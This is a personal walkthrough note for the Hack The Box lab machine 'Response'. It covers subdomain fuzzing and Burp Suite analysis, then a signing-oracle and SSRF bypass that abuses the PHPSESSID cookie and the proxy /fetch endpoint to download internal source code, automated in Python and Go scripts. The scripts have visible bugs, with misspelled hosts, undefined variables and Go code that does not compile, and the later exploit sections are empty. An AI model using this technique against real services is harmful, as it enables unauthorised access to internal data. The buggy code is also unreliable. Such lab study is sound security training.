

# Response Helped-Through

Name: Response
Date:  
Difficulty:  Insane
Goals:  
- Python, Go and C programming personal improvements 
- Azure Application hosting for AZ104 and beyond..
- Shadow IT to be a better Sys Admin 
- VS Code / Codium snyk plugin is must to have!
Learnt:
- API hacking - Burpsuite best practices regarding forking requests 
- Session and Cookie hacking - key expose signing reuse to the then control json field that use that key
Beyond Root:
- Golang  version of the web server and spawn a another webserver for vulnerabale machine
- Implement a server with
	- Azure App Service
	- Docker containerise windows work station and kubernetes a web app for Vuln machine I want to template out and make
	- Application gateway for routes and OWASP top 10
	- Private DNS endpoint
	- TLS/SSL implementation for CSPA twinned with HTB academy TLS/SSL module
- Rogue DNS setup 


Twinned with [[Absolute-Helped-Through]]

- [[Response-Notes.md]]
- [[Response-CMD-by-CMDs.md]]

[Ippsec Response Video Writeup](https://www.youtube.com/watch?v=-t1UAvTxB94)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



```bash
ffuf -u http://www.response.htb -H "Host: FUZZ.response.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ --mc all -fw 3 -o ffufhosts.out
# use jq to read ffuf output file and remove and format output for easy added to /etc/hosts 
cat ffufhosts.out | jq '.results[] .host' | tr -d '"' | tr -s '\n' ' '
# RESPADDHOSTS=$(cat ffufhosts.out | jq '.results[] .host' | tr -d '"' | tr -s '\n' ' ')
echo "$IP response.htb www.response.htb proxy.response.htb" | sudo tee -a /etc/hosts 
# Or
echo "$IP response.htb $RESPADDHOSTS" | sudo tee -a /etc/hosts 
```

www vhost has potential email format 

/status/ page, open debugger and watch what happens - for proxy vhost. It is best practice to also send to burpsuite's repeater tab each fork in the request chain and name each as we can start to lose track in the GUI what each repeater subtab is for.


Or use burpsuite proxy /status/ then `Right Click -> Intercept response to this request`  - Ippsec *"something in the javascript is dynamic, because it ended in .php"*

`OPTION /fetch` is common for APIs as client may require for HTTP verbs - for api vhost and `Right Click -> Intercept response to this request`

```bash
echo $BASE64 | base64 -d | jq .
```

Append with `sed` to modify the /etc/hosts file.
```bash
sudo -i 's/proxy.response.htb/proxy.response.htb api.response.htb/g' etc/hosts 
```

If try to browse to `api.response.htb` then we get 403 possibly because it is on localhost or 127.0.0.1

API hacking
- Change json fields `url` as `url_digest` is a checksum
- Measure `url_digest` 

What is weird for Ippsec
- Session and Session digest is the same across all three requests
- Measure Session and Session digests to figure out hash type 


main.js.php - the cookie may be creating the session as it is PHPSESSID and if the same key is used to sign the session the cookie and the url.
```json
request: modify the PHPSESSID
response: check the session_digest 
```

Change to PHPSESSID to `chat.response.htb` request `main.js.php` and use then hash created with `/fetch` page to get a page back! Bypass the signing by forcing the server to sign anything we want!

Download the source code!

Coding as fast as ChatGPT and Ippsec combined, but having a python revision lesson
```python
# main.py
import requests # to make requests..
import re # regex to pull the digest
import base64 # for the decode and encode

def get_digest(url):
	cookie = {
		"PHPSESSID": url
	}
	r = requests.get("http://www.reponse.htb/status/main.js.php", cookies=cookie)
	res = re.search(r"'session_digest':'([0-9a-f]*)'};", r.text)
	print("Session digest: " + res.group(1))
	return res.group(1)

def download_url(url):
	url_digest = get_digest(url)
	payload = {
		"url": url,
		"url_digest": url_digest,
		"method": "GET",
		"session": "",
		"session_digest": ""
	}
	r = requests.post("http://proxy.response.htb/fetch", json=payload)
	return r

r = download_url("http://chat.response.htb")
data = base64.b64decode(response["body"])
with open("chat_source.zip", "wb") as f:
	f.write(data)

print(r.json())
```

VS code / Codium:

Set a breakpoint:
- `Click in the margin by the line number` - a red dot will appear

Debug Console
- If a part of your code errors out you can display contents of variables by just typing them

Go version - No chatGPT
```go
package main

import (
	"bytes"
	"encoding/base64"
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"net/http/cookiejar"
	"os"
	"regexp"
)

// Help from
// https://golangbyexample.com/cookies-golang/
// https://pkg.go.dev/net/http/cookiejar@go1.20.6
// https://pkg.go.dev/regexp#MatchString - check
// https://go.dev/blog/json
// https://golangtutorial.dev/tips/http-post-json-go/
// https://zetcode.com/golang/writefile/
// https://pkg.go.dev/encoding/base64#NewDecoder

type apiFetchReq struct {
	url            string
	url_digest     string
	method         string
	session        string
	session_digest string
}

func main() {
	downloadURL("http://chat.response.htb")
	fmt.Println()
}

func getDigest(fetchThisURL string) (string, error) {
	jar, err := cookiejar.New(nil)
	if err != nil {
		log.Fatalf("Got error while creating cookie jar %s", err.Error())
	}
	cookie := &http.Cookie{
		Name:  "PHPSESSID",
		Value: fetchThisURL,
	}
	client := &http.Client{Jar: jar}
	request, err := http.NewRequest("GET", "http://www.reponse.htb/status/main.js.php", nil)
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}
	request.AddCookie(cookie)

	response, err := client.Do(request)
	if err != nil {
		log.Fatalf("Error occured. Error is: %s", err.Error())

	}
	defer response.Body.Close()

	reEx := regexp.MustCompile(`'session_digest':'(0-9a-f)*'`)
	getSessionDigest := reEx.Find([]byte(response.Body))
	fmt.Println("Session Digest: %s", getSessionDigest)

	return getSessionDigest
}

func downloadURL(fetchThisURL string) error {
	urlDigest, err := getDigest(url)
	// urlDigest, "GET", session, sessionDigest}
	payload := apiFetchReq{fetchThisURL, "12345678", "GET", "12345678", "12345678"}
	jsonPayload, err := json.Marshal(payload)
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}
	request, err := http.NewRequest("POST", "http://proxy.reponse.htb/fetch", bytes.NewBuffer(jsonPayload))
	request.Header.Set("Content-Type", "application/json; charset=UTF-8")
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}
	response, err := client.Do(request)
	if err != nil {
		log.Fatalf("Error occured. Error is: %s", err.Error())
	}
	defer response.Body.Close()

	b64Body, _ := ioutil.ReadAll(response.Body)
	dst := make([]byte, base64.StdEncoding.DecodedLen(len(b64Body)))
	sourceCode, err := base64.StdEncoding.Decode(dst, []byte(b64Body))
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}

	f, err := os.Create("chat_source.zip")
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}
	defer f.Close()
	base64.NewDecoder()

	_, err := f.Write(sourceCode)
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}

	return response.Body
}
```

https://www.youtube.com/watch?v=-t1UAvTxB94 24:00


## Exploit

## Foothold

## PrivEsc


## Beyond Root

Proxy code 
```python 
```


## Testing to then design of Vulnerable Machine(s)

OSCP level Windows and Active Directory Jungle Gym

- Make OSCP level 
- Have good theme
- Make the Kubernetes, docker container only for pivoting not for escaping
- Make uber vulnerable switch once completed
- Ascii Art of completion